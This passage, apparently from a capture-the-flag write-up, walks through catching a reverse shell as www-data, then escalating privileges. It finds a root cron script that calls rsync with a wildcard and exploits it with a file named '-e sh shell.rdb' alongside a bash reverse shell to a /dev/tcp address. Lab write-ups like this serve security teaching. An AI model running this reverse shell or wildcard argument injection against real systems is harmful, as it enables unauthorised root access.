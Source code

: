 ```bash
# ./ncat -lnvp 9000
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 172.19.0.4.
Ncat: Connection from 172.19.0.4:41462.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

## Privilege Escalation

I uploaded pspy and checked for anything running suspicious and found a backup.sh running.

```bash
2020/08/19 10:57:01 CMD: UID=0    PID=1568   | sh /backup/backup.sh 
2020/08/19 10:57:02 CMD: UID=0    PID=1569   | rsync -a rsync://backup:873/src/backup/ /var/www/html/
```

`backup.sh`

```bash
$ cat /backup/backup.sh
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

It is saving the database using rsync, then removing the web folders and bringing them back in from a host named backup.

**What is rsync?**

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification times and sizes of files. It is commonly found on Unix-like operating systems. Rsync is written in C as a single threaded application

### Exploiting WildCard

We can exploit the command that uses the wildcard `*` . If u see closely Its looking for a file in `.rdb` extension, So I created a file as `-e sh shell.rdb` and put my `shell.sh` in the same directory.

```bash
$ cd /tmp
$ cat shell.sh
bash -c "bash -i >& /dev/tcp/172.19.0.3/5555 0>&1"
$ cd f187a0ec71ce99642e4f0afbd441a68b
$ ls
$ cp /tmp/shell.sh shell.rdb
$ echo "" > "-e sh shell.rdb"
$ ls -la
total 16
-rw-r--r-- 1 www-data www-data    1 Aug 19 12:19 -e sh shell.rdb
drwxr-xr-x 2 www-data www-data 4096 Aug 19 12:19 .
drwxr-xr-x 5 root     root     4096 Jul 15  2018 ..
-rw-r--r-- 1 www-data www-data   51 Aug 19 12:19 shell.rdb
```
